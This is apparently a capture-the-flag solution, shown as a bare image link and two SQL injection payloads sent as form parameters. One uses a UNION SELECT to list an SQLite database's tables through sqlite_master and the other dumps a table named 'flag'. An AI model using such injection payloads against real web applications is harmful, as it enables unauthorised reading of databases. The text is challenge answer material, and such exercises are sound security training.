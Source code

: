 # Solution

```text
name=a&guests='UNION SELECT 1,* FROM 'sqlite_master
name=a&guests='UNION SELECT *,*,*,*,*,* FROM 'flag
```
